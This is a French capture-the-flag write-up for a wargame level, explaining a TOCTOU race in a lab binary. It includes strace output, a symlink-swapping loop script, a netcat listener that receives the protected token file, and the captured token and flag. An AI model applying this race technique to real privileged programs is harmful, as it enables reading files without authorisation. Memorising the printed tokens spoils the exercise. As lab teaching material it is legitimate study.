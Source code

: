 # Niveau 10 - Exploiter une vulnérabilité TOCTOU

## Vulnérabilité

Ce niveau exploite une vulnérabilité de condition de concurrence (race condition) de type Time-of-Check-to-Time-of-Use (TOCTOU).

## Découverte & Analyse

En analysant le binaire avec `strace`, nous observons la séquence suivante d'appels système :
```bash
access("test2", R_OK) = 0
...
write(1, "Connecting to 192.168.122.99:696"..., 37Connecting to 192.168.122.99:6969 .. ) = 37
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("192.168.122.99")}, 16) = 0
write(3, ".*( )*.\n", 8) = 8
write(1, "Connected!\n", 11Connected!
) = 11
write(1, "Sending file .. ", 16Sending file .. ) = 16
openat(AT_FDCWD, "test2", O_RDONLY) = 4
```
La vulnérabilité clé est l'intervalle de temps entre la vérification des permissions (`access()`) et l'ouverture réelle du fichier (`open()`). Si nous pouvons changer ce vers quoi pointe le chemin du fichier pendant cet intervalle, nous pouvons lire des fichiers auxquels nous n'avons pas la permission d'accéder.

## Méthode d'Exploitation

### Étape 1 : Créer les fichiers nécessaires

```bash
touch /tmp/myfile
chmod 777 /tmp/myfile

nano /tmp/run.sh
```

Contenu de `/tmp/run.sh`:
```bash
#!/bin/bash

while true; do
  # Basculer le lien symbolique vers /tmp/myfile (accessible)
  ln -sf /tmp/myfile /tmp/linkfile

  # Exécuter le programme level10 (qui vérifiera l'accès à /tmp/linkfile pointant vers myfile)
  /home/user/level10/level10 /tmp/linkfile 127.0.0.1

  # Basculer rapidement le lien symbolique vers le fichier token (inaccessible)
  ln -sf /home/user/level10/token /tmp/linkfile
done
```

- `ln` : Crée des liens entre les fichiers.
- `-s` : Crée un lien symbolique (symlink) au lieu d'un lien physique. Un lien symbolique est comme un raccourci qui pointe vers un autre fichier. Ils sont utiles ici car ils peuvent être rapidement redirigés pour pointer vers différents fichiers.
- `-f` : Option "force". Si le fichier cible existe déjà, le supprime avant de créer le lien. Cela évite les messages d'erreur concernant les fichiers déjà existants.

Rendre le script exécutable :
```bash
chmod +x /tmp/run.sh
```

### Étape 2 : Mettre en place un écouteur et exécuter les scripts

Dans deux terminaux séparés, exécutez :

```bash
# Terminal 1 : Démarrer un écouteur netcat
nc -kl 6969

# Terminal 2 : Exécuter le script d'exploitation en boucle
/tmp/run.sh
```

- `nc` est l'utilitaire netcat, un outil réseau polyvalent.
- `-l` met netcat en mode "écoute", le faisant agir comme un serveur.
- L'option additionnelle `-k` maintient l'écouteur actif après la déconnexion d'un client.
- `6969` est le numéro de port sur lequel écouter.

Après avoir exécuté l'exploit, nous avons capturé le jeton du fichier `token` sur l'écouteur `nc`:

```
woupa2yuojeeaaed06riuj63c
```

Nous avons utilisé ce jeton pour nous connecter en tant qu'utilisateur `flag10` :

```bash
su flag10
# Entrez le jeton comme mot de passe
getflag
# Sortie : Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

## Explication

L'exploit fonctionne car :

1. Lorsque `level10` appelle `access()`, notre lien symbolique pointe vers `/tmp/myfile` auquel nous pouvons accéder.
2. Avant que `level10` n'appelle `open()`, notre script change rapidement le lien symbolique pour pointer vers le fichier `token`.
3. Lorsque `open()` est appelé, il ouvre le fichier `token` à la place, contournant la vérification de permission.
4. Le contenu est envoyé à notre écouteur netcat.

C'est une vulnérabilité classique de condition de concurrence où l'état du système change entre la vérification des permissions et l'exécution d'une opération.
